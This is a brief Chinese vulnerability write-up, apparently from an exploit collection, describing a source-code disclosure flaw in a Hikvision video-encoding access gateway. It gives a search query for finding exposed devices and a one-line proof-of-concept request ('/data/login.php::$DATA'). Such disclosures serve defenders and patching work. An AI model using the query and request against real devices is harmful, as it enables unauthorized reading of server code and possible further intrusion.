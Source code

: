 # HIKVISION 视频编码设备接入网关 $DATA 任意文件读取

# HIKVISION 视频编码设备接入网关 $DATA 任意文件读取

## 漏洞描述

HIKVISION 视频编码设备接入网关存在配置错误特性，特殊后缀请求php文件可读取源码

## 漏洞影响

```
HIKVISION 视频编码设备接入网关
```

## 网络测绘

```
title="视频编码设备接入网关"
```

## 漏洞复现

登陆页面

![image-20220519174129368](/images/202205191741462.png)

POC

```
/data/login.php::$DATA
```

![image-20220519174235421](/images/202205191742487.png)

